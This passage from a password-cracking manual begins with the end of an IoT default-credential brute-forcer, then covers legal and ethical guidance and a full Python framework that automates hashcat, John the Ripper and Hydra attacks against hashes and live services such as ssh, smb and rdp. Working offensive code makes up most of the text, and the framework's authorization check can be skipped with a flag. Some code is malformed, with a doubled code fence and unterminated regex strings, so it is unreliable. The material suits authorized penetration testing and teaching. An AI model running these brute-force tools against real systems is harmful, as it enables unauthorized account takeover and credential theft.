        print(f"Found {len(self.found_credentials)} valid credentials")

# Common IoT default credentials
iot_defaults = [
    ('admin', 'admin'),
    ('admin', 'password'),
    ('admin', ''),
    ('root', 'admin'),
    ('admin', '1234'),
    ('user', 'user'),
    ('guest', 'guest'),
    ('admin', 'pass'),
    ('root', 'root'),
    ('admin', 'admin123')
]

if __name__ == "__main__":
    import sys
    if len(sys.argv) != 3:
        print("Usage: python3 iot_bruteforce.py <target_ip> <service_type>")
        print("Service types: http, telnet, ssh")
        sys.exit(1)
    
    target, service = sys.argv[1:3]
    bruteforcer = IoTBruteForcer(target, service, iot_defaults)
    bruteforcer.start_attack()
EOF
```

## 12. Legal and Ethical Considerations

:::note
All password cracking activities must be conducted within strict legal and ethical boundaries. Always obtain proper authorization and follow responsible disclosure practices.
:::

### 12.1 Authorization Requirements

Password cracking techniques described in this manual must only be employed within the scope of:

- **Authorized penetration testing engagements** with signed contracts and clear scope definitions
- **Red team exercises** with explicit management approval and defined rules of engagement
- **Security research** in controlled laboratory environments with owned equipment
- **Educational purposes** using designated training platforms and lab environments
- **Personal systems** where you have complete ownership and legal authority

### 12.2 Legal Framework Compliance

```bash
# Documentation template for authorized testing
cat > engagement_documentation.md << 'EOF'
# Password Security Assessment Documentation

## Engagement Details
- **Client**: [Organization Name]
- **Engagement Type**: [Penetration Test/Red Team/Security Assessment]
- **Authorization**: [Contract Number/SOW Reference]
- **Scope**: [Defined IP ranges, systems, applications]
- **Duration**: [Start Date - End Date]

## Methodology
- **Tools Used**: [List all tools and versions]
- **Attack Vectors**: [Specific techniques employed]
- **Targets**: [Systems and accounts tested]
- **Limitations**: [Agreed restrictions and exclusions]

## Results Summary
- **Accounts Tested**: [Total number]
- **Passwords Cracked**: [Number and percentage]
- **Time to Crack**: [Average and maximum times]
- **Common Patterns**: [Identified weaknesses]

## Recommendations
1. [Specific security improvements]
2. [Policy recommendations]
3. [Technical controls]
4. [Training requirements]

## Data Handling
- **Password Storage**: [How cracked passwords are stored/destroyed]
- **Evidence Retention**: [Timeline for data destruction]
- **Access Controls**: [Who has access to results]
EOF

# Secure password storage for testing
gpg --symmetric --cipher-algo AES256 cracked_passwords.txt
shred -vfz -n 3 cracked_passwords.txt
```

### 12.3 Responsible Disclosure

When vulnerabilities are discovered during authorized testing:

1. **Immediate Notification**: Critical vulnerabilities should be reported within 24 hours
2. **Detailed Documentation**: Provide complete reproduction steps and impact analysis
3. **Remediation Support**: Offer guidance for fixing identified issues
4. **Coordinated Disclosure**: Follow agreed timelines for public disclosure
5. **Data Protection**: Ensure sensitive information is properly protected

### 12.4 Ethical Guidelines

```python
```python
# Ethical checklist for password security testing
ethical_checklist = {
    "authorization": {
        "written_permission": False,
        "scope_defined": False,
        "legal_review": False,
        "management_approval": False
    },
    "conduct": {
        "minimal_impact": False,
        "data_protection": False,
        "respect_privacy": False,
        "avoid_disruption": False
    },
    "disclosure": {
        "responsible_reporting": False,
        "remediation_support": False,
        "coordinated_timeline": False,
        "data_destruction": False
    }
}

def verify_ethical_compliance(checklist):
    """Verify ethical compliance before testing"""
    for category, items in checklist.items():
        print(f"\n{category.upper()} REQUIREMENTS:")
        for item, status in items.items():
            status_text = "✓" if status else "✗"
            print(f"  {status_text} {item.replace('_', ' ').title()}")
    
    all_approved = all(
        all(items.values()) 
        for items in checklist.values()
    )
    
    if all_approved:
        print("\n✓ All ethical requirements met. Proceeding with testing.")
    else:
        print("\n✗ Ethical requirements not met. Do not proceed with testing.")
    
    return all_approved

# Example usage
if __name__ == "__main__":
    # Before starting any password testing
    verify_ethical_compliance(ethical_checklist)
```

## 13. Automation and Scripting Framework

:::note
Automation scripts should include proper error handling, logging, and rate limiting to avoid overwhelming target systems and to maintain detailed audit trails.
:::

### 13.1 Comprehensive Password Testing Framework

```python
#!/usr/bin/env python3
"""
Comprehensive Password Security Testing Framework
Author: Security Research Team
Purpose: Automated password security assessment with ethical controls
"""

import argparse
import logging
import json
import time
import threading
from datetime import datetime
from pathlib import Path
import subprocess
import sys
from queue import Queue

class PasswordTestingFramework:
    def __init__(self, config_file=None):
        self.config = self.load_config(config_file)
        self.setup_logging()
        self.results = {
            'start_time': datetime.now().isoformat(),
            'tools_used': [],
            'targets_tested': [],
            'credentials_found': [],
            'statistics': {}
        }
    
    def load_config(self, config_file):
        """Load configuration from JSON file"""
        default_config = {
            'output_dir': './results',
            'rate_limit': 1.0,
            'max_threads': 10,
            'timeout': 30,
            'wordlists': {
                'usernames': './wordlists/usernames.txt',
                'passwords': './wordlists/passwords.txt'
            },
            'tools': {
                'hashcat': '/usr/bin/hashcat',
                'john': '/usr/bin/john',
                'hydra': '/usr/bin/hydra'
            }
        }
        
        if config_file and Path(config_file).exists():
            with open(config_file, 'r') as f:
                user_config = json.load(f)
                default_config.update(user_config)
        
        return default_config
    
    def setup_logging(self):
        """Setup comprehensive logging"""
        log_format = '%(asctime)s - %(levelname)s - %(message)s'
        logging.basicConfig(
            level=logging.INFO,
            format=log_format,
            handlers=[
                logging.FileHandler(f"{self.config['output_dir']}/framework.log"),
                logging.StreamHandler(sys.stdout)
            ]
        )
        self.logger = logging.getLogger(__name__)
    
    def verify_authorization(self):
        """Verify testing authorization"""
        print("AUTHORIZATION VERIFICATION")
        print("=" * 50)
        
        questions = [
            "Do you have written authorization to test these systems? (yes/no): ",
            "Are you testing only systems you own or have explicit permission to test? (yes/no): ",
            "Have you reviewed the legal implications of this testing? (yes/no): ",
            "Do you understand the responsible disclosure requirements? (yes/no): "
        ]
        
        for question in questions:
            response = input(question).lower().strip()
            if response not in ['yes', 'y']:
                print("TESTING ABORTED: Authorization requirements not met.")
                sys.exit(1)
        
        print("Authorization verified. Proceeding with testing...")
        self.logger.info("Authorization verified by user")
    
    def load_wordlist(self, filepath):
        """Load wordlist from file"""
        try:
            with open(filepath, 'r', encoding='utf-8', errors='ignore') as f:
                return [line.strip() for line in f if line.strip()]
        except FileNotFoundError:
            self.logger.error(f"Wordlist not found: {filepath}")
            return []
    
    def run_hashcat(self, hash_file, wordlist, hash_type=0):
        """Run Hashcat with specified parameters"""
        self.logger.info(f"Starting Hashcat attack on {hash_file}")
        
        cmd = [
            self.config['tools']['hashcat'],
            '-m', str(hash_type),
            '-a', '0',
            hash_file,
            wordlist,
            '--potfile-path', f"{self.config['output_dir']}/hashcat.pot",
            '--outfile', f"{self.config['output_dir']}/hashcat_cracked.txt",
            '--quiet'
        ]
        
        try:
            result = subprocess.run(
                cmd,
                timeout=self.config['timeout'] * 60,
                capture_output=True,
                text=True
            )
            
            self.results['tools_used'].append('hashcat')
            self.logger.info(f"Hashcat completed with return code: {result.returncode}")
            
            return result.returncode == 0
            
        except subprocess.TimeoutExpired:
            self.logger.warning("Hashcat timed out")
            return False
        except Exception as e:
            self.logger.error(f"Hashcat error: {str(e)}")
            return False
    
    def run_john(self, password_file, wordlist=None):
        """Run John the Ripper with specified parameters"""
        self.logger.info(f"Starting John the Ripper attack on {password_file}")
        
        cmd = [self.config['tools']['john']]
        
        if wordlist:
            cmd.extend(['--wordlist', wordlist])
        
        cmd.extend([
            password_file,
            '--pot', f"{self.config['output_dir']}/john.pot"
        ])
        
        try:
            result = subprocess.run(
                cmd,
                timeout=self.config['timeout'] * 60,
                capture_output=True,
                text=True
            )
            
            self.results['tools_used'].append('john')
            self.logger.info(f"John completed with return code: {result.returncode}")
            
            return result.returncode == 0
            
        except subprocess.TimeoutExpired:
            self.logger.warning("John the Ripper timed out")
            return False
        except Exception as e:
            self.logger.error(f"John error: {str(e)}")
            return False
    
    def run_hydra(self, target, service, userlist, passlist):
        """Run Hydra brute force attack"""
        self.logger.info(f"Starting Hydra attack against {target}:{service}")
        
        cmd = [
            self.config['tools']['hydra'],
            '-L', userlist,
            '-P', passlist,
            '-t', str(self.config['max_threads']),
            '-w', str(int(self.config['rate_limit'])),
            '-o', f"{self.config['output_dir']}/hydra_results.txt",
            target,
            service
        ]
        
        try:
            result = subprocess.run(
                cmd,
                timeout=self.config['timeout'] * 60,
                capture_output=True,
                text=True
            )
            
            self.results['tools_used'].append('hydra')
            self.results['targets_tested'].append(f"{target}:{service}")
            self.logger.info(f"Hydra completed with return code: {result.returncode}")
            
            return result.returncode == 0
            
        except subprocess.TimeoutExpired:
            self.logger.warning("Hydra timed out")
            return False
        except Exception as e:
            self.logger.error(f"Hydra error: {str(e)}")
            return False
    
    def analyze_results(self):
        """Analyze and compile results"""
        self.logger.info("Analyzing results...")
        
        # Parse cracked passwords from various tools
        cracked_passwords = []
        
        # Hashcat results
        hashcat_pot = Path(f"{self.config['output_dir']}/hashcat.pot")
        if hashcat_pot.exists():
            with open(hashcat_pot, 'r') as f:
                for line in f:
                    if ':' in line:
                        hash_val, password = line.strip().split(':', 1)
                        cracked_passwords.append({
                            'tool': 'hashcat',
                            'hash': hash_val,
                            'password': password
                        })
        
        # John results
        john_pot = Path(f"{self.config['output_dir']}/john.pot")
        if john_pot.exists():
            with open(john_pot, 'r') as f:
                for line in f:
                    if ':' in line:
                        parts = line.strip().split(':')
                        if len(parts) >= 2:
                            cracked_passwords.append({
                                'tool': 'john',
                                'username': parts[0],
                                'password': parts[1]
                            })
        
        # Hydra results
        hydra_results = Path(f"{self.config['output_dir']}/hydra_results.txt")
        if hydra_results.exists():
            with open(hydra_results, 'r') as f:
                for line in f:
                    if 'login:' in line and 'password:' in line:
                        # Parse Hydra output format
                        parts = line.strip().split()
                        for i, part in enumerate(parts):
                            if part == 'login:' and i + 1 < len(parts):
                                username = parts[i + 1]
                            elif part == 'password:' and i + 1 < len(parts):
                                password = parts[i + 1]
                        
                        cracked_passwords.append({
                            'tool': 'hydra',
                            'username': username,
                            'password': password
                        })
        
        self.results['credentials_found'] = cracked_passwords
        self.results['statistics'] = {
            'total_cracked': len(cracked_passwords),
            'tools_used_count': len(set(self.results['tools_used'])),
            'targets_tested_count': len(self.results['targets_tested'])
        }
        
        # Password pattern analysis
        if cracked_passwords:
            passwords = [cred.get('password', '') for cred in cracked_passwords]
            self.results['statistics']['password_analysis'] = self.analyze_password_patterns(passwords)
    
    def analyze_password_patterns(self, passwords):
        """Analyze common password patterns"""
        analysis = {
            'average_length': sum(len(p) for p in passwords) / len(passwords),
            'length_distribution': {},
            'character_usage': {
                'uppercase': 0,
                'lowercase': 0,
                'digits': 0,
                'special': 0
            },
            'common_patterns': {}
        }
        
        # Length distribution
        for password in passwords:
            length = len(password)
            analysis['length_distribution'][length] = analysis['length_distribution'].get(length, 0) + 1
        
        # Character usage
        import re
        for password in passwords:
            if re.search(r'[A-Z]', password):
                analysis['character_usage']['uppercase'] += 1
            if re.search(r'[a-z]', password):
                analysis['character_usage']['lowercase'] += 1
            if re.search(r'\d', password):
                analysis['character_usage']['digits'] += 1
            if re.search(r'[!@#$%^&*(),.?":{}|<>]', password):
                analysis['character_usage']['special'] += 1
        
        # Common patterns
        patterns = {
            'ends_with_digits': r'\d+,
            'starts_with_capital': r'^[A-Z]',
            'contains_year': r'(19|20)\d{2}',
            'ends_with_exclamation': r'!+
        }
        
        for pattern_name, pattern in patterns.items():
            count = sum(1 for p in passwords if re.search(pattern, p))
            analysis['common_patterns'][pattern_name] = count
        
        return analysis
    
    def generate_report(self):
        """Generate comprehensive report"""
        self.results['end_time'] = datetime.now().isoformat()
        
        report_file = f"{self.config['output_dir']}/assessment_report.json"
        with open(report_file, 'w') as f:
            json.dump(self.results, f, indent=2)
        
        # Generate human-readable report
        readable_report = f"{self.config['output_dir']}/assessment_report.txt"
        with open(readable_report, 'w') as f:
            f.write("PASSWORD SECURITY ASSESSMENT REPORT\n")
            f.write("=" * 50 + "\n\n")
            
            f.write(f"Assessment Period: {self.results['start_time']} to {self.results['end_time']}\n")
            f.write(f"Tools Used: {', '.join(set(self.results['tools_used']))}\n")
            f.write(f"Targets Tested: {self.results['statistics']['targets_tested_count']}\n")
            f.write(f"Credentials Found: {self.results['statistics']['total_cracked']}\n\n")
            
            if self.results['credentials_found']:
                f.write("CRACKED CREDENTIALS:\n")
                f.write("-" * 30 + "\n")
                for cred in self.results['credentials_found']:
                    if 'username' in cred:
                        f.write(f"User: {cred['username']} | Password: {cred['password']} | Tool: {cred['tool']}\n")
                    else:
                        f.write(f"Hash: {cred.get('hash', 'N/A')} | Password: {cred['password']} | Tool: {cred['tool']}\n")
                
                f.write("\nPASSWORD ANALYSIS:\n")
                f.write("-" * 30 + "\n")
                analysis = self.results['statistics'].get('password_analysis', {})
                f.write(f"Average Length: {analysis.get('average_length', 0):.2f}\n")
                f.write(f"Character Usage:\n")
                for char_type, count in analysis.get('character_usage', {}).items():
                    percentage = (count / len(self.results['credentials_found'])) * 100
                    f.write(f"  {char_type.title()}: {count} ({percentage:.1f}%)\n")
        
        self.logger.info(f"Report generated: {readable_report}")
        print(f"\nAssessment complete. Report saved to: {readable_report}")
    
    def cleanup(self):
        """Secure cleanup of sensitive data"""
        self.logger.info("Starting secure cleanup...")
        
        # Overwrite sensitive files
        sensitive_files = [
            f"{self.config['output_dir']}/hashcat.pot",
            f"{self.config['output_dir']}/john.pot",
            f"{self.config['output_dir']}/hydra_results.txt"
        ]
        
        for file_path in sensitive_files:
            if Path(file_path).exists():
                # Simple overwrite (use shred for better security)
                with open(file_path, 'w') as f:
                    f.write('0' * 1024)
                Path(file_path).unlink()
        
        self.logger.info("Cleanup completed")

def main():
    parser = argparse.ArgumentParser(description='Password Security Testing Framework')
    parser.add_argument('--config', help='Configuration file path')
    parser.add_argument('--hash-file', help='Hash file for offline cracking')
    parser.add_argument('--target', help='Target for online attacks')
    parser.add_argument('--service', help='Service type (ssh, http, etc.)')
    parser.add_argument('--skip-auth', action='store_true', help='Skip authorization check (USE ONLY FOR OWNED SYSTEMS)')
    
    args = parser.parse_args()
    
    # Initialize framework
    framework = PasswordTestingFramework(args.config)
    
    # Create output directory
    Path(framework.config['output_dir']).mkdir(exist_ok=True)
    
    try:
        # Verify authorization (critical step)
        if not args.skip_auth:
            framework.verify_authorization()
        
        # Load wordlists
        usernames = framework.load_wordlist(framework.config['wordlists']['usernames'])
        passwords = framework.load_wordlist(framework.config['wordlists']['passwords'])
        
        if not usernames or not passwords:
            print("Error: Could not load required wordlists")
            sys.exit(1)
        
        # Offline attacks
        if args.hash_file:
            if Path(args.hash_file).exists():
                framework.run_hashcat(args.hash_file, framework.config['wordlists']['passwords'])
                framework.run_john(args.hash_file, framework.config['wordlists']['passwords'])
            else:
                print(f"Hash file not found: {args.hash_file}")
        
        # Online attacks
        if args.target and args.service:
            # Create temporary wordlist files
            user_file = f"{framework.config['output_dir']}/temp_users.txt"
            pass_file = f"{framework.config['output_dir']}/temp_passwords.txt"
            
            with open(user_file, 'w') as f:
                f.write('\n'.join(usernames))
            
            with open(pass_file, 'w') as f:
                f.write('\n'.join(passwords))
            
            framework.run_hydra(args.target, args.service, user_file, pass_file)
            
            # Cleanup temporary files
            Path(user_file).unlink()
            Path(pass_file).unlink()
        
        # Analyze results and generate report
        framework.analyze_results()
        framework.generate_report()
        
    except KeyboardInterrupt:
        print("\nTesting interrupted by user")
        framework.logger.info("Testing interrupted by user")
    except Exception as e:
        print(f"Error during testing: {str(e)}")
        framework.logger.error(f"Error during testing: {str(e)}")
    finally:
        # Always cleanup
        framework.cleanup()

if __name__ == "__main__":
    main()
```

### 13.2 Configuration Management

```json
{
  "output_dir": "./results",
  "rate_limit": 1.0,
  "max_threads": 10,
  "timeout": 30,
  "wordlists": {
    "usernames": "./wordlists/usernames.txt",
    "passwords": "./wordlists/rockyou.txt",
    "common_passwords": "./wordlists/common_passwords.txt"
  },
  "tools": {
    "hashcat": "/usr/bin/hashcat",
    "john": "/usr/bin/john",
    "hydra": "/usr/bin/hydra",
    "crackmapexec": "/usr/bin/crackmapexec"
  },
  "hash_types": {
    "md5": 0,
    "sha1": 100,
    "sha256": 1400,
    "ntlm": 1000,
    "bcrypt": 3200
  },
  "services": [
    "ssh",
    "ftp",
    "telnet",
    "http-post-form",
    "https-post-form",
    "smb",
    "rdp"
  ],
  "reporting": {
    "include_cracked_passwords": true,
    "include_statistics": true,
    "include_recommendations": true,
    "format": ["json", "txt", "html"]
  }
}
```

## 14. Conclusion

This comprehensive reference manual provides an exhaustive analysis of password cracking and brute force methodologies across multiple platforms, services, and attack vectors. The techniques described represent the current state-of-the-art in password security assessment, providing cybersecurity professionals with the knowledge necessary to both implement robust testing procedures and defend against sophisticated password attacks.

The evolution of password cracking tools toward GPU acceleration, cloud computing integration, and AI-assisted pattern recognition demonstrates the ongoing arms race between offensive and defensive capabilities. Organizations must implement comprehensive password policies, multi-factor authentication, and continuous monitoring to maintain effective security posture.

### 14.1 Key Takeaways

<ins>**For Security Professionals:**</ins>
- Password cracking remains a critical component of security assessments
- Modern tools provide unprecedented speed and capability through GPU acceleration
- Automation frameworks enable comprehensive and repeatable testing methodologies
- Proper authorization and ethical guidelines are essential for responsible testing

<ins>**For Organizations:**</ins>
- Default credentials represent critical vulnerabilities across all device types
- Password complexity alone is insufficient; implement multi-factor authentication
- Regular password policy assessment and user training are essential
- Monitoring and detection capabilities must evolve to address modern attack techniques

<ins>**For Defenders:**</ins>
- Understanding attacker methodologies enables better defensive strategies
- Rate limiting, account lockout, and behavioral analysis provide effective countermeasures
- Honeypots and deception technologies can provide early warning of attacks
- Continuous monitoring and log analysis are essential for attack detection

### 14.2 Future Research Directions

<ins>Future research should focus on:</ins>

1. **Machine Learning Integration**: Development of AI-assisted password generation and pattern recognition
2. **Quantum Resistance**: Preparation for quantum computing impacts on cryptographic hash functions
3. **Cloud-Native Security**: Password security in containerized and serverless environments
4. **Biometric Integration**: Moving beyond traditional passwords to multi-modal authentication
5. **Behavioral Analytics**: Advanced detection of automated password attacks through user behavior analysis

### 14.3 Final Recommendations

Security practitioners must balance the offensive capabilities described herein with robust defensive measures, comprehensive monitoring, and adherence to ethical guidelines. The responsible advancement of cybersecurity knowledge requires continuous collaboration between security researchers, practitioners, and organizations to develop effective defenses against evolving threats.

Remember that the ultimate goal of password security assessment is not merely to demonstrate vulnerabilities, but to enable organizations to build more secure systems that protect sensitive data and maintain user trust in our increasingly connected world.

## References

1. [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
2. [NIST SP 800-63B: Authentication and Lifecycle Management](https://pages.nist.gov/800-63-3/sp800-63b.html)
3. [Hashcat Documentation](https://hashcat.net/hashcat/)
4. [John the Ripper Documentation](https://www.openwall.com/john/doc/)
5. [THC Hydra Documentation](https://github.com/vanhauser-thc/thc-hydra)
6. [CrackMapExec Documentation](https://github.com/byt3bl33d3r/CrackMapExec)
7. [Kerbrute Documentation](https://github.com/ropnop/kerbrute)
8. [HackTricks Brute Force Guide](https://book.hacktricks.wiki/en/generic-hacking/brute-force.html)
9. [The Hacker Recipes - Credential Cracking](https://www.thehacker.recipes/ad/movement/credentials/cracking)
10. [RFC 4086: Randomness Requirements for Security](https://datatracker.ietf.org/doc/html/rfc4086)
